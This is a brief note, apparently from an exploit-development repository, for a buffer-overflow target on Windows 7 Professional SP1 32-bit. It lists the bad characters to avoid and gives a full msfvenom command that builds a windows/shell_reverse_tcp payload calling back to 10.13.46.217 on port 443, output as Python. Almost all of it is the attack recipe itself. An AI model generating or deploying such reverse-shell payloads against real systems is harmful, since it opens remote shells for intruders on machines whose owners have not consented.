 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x8c\xae\xbe\xfb

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x8c\xae\xbe\xfb" -v esp -f python
